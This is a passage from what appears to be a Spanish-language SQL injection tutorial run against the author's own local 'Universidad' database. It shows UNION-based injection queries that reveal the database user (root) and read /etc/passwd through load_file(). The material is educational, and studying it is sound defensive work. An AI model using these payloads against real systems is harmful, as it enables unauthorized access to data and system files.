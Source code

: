 efectivamente se llama Universidad mi base de datos

Ejemplo 2: quiero ver el usuario que esta corriendo la base de datos

```sql
select nombre,password from Alumnos where id = 1 union select "NULL", user();
```
![](/assets/img/commons/SQLI/sql9.png)

Efectivamente mi base de datos esta corriendo como root en mi localhost:)

Ejemplo 3: cargaré un archivo directamente de mi sistema por ejemplo el /etc/passwd

```sql
select nombre,password from Alumnos where id = 1 union select "NULL", load_file('/etc/passwd');
```
![](/assets/img/commons/SQLI/sql10.png)
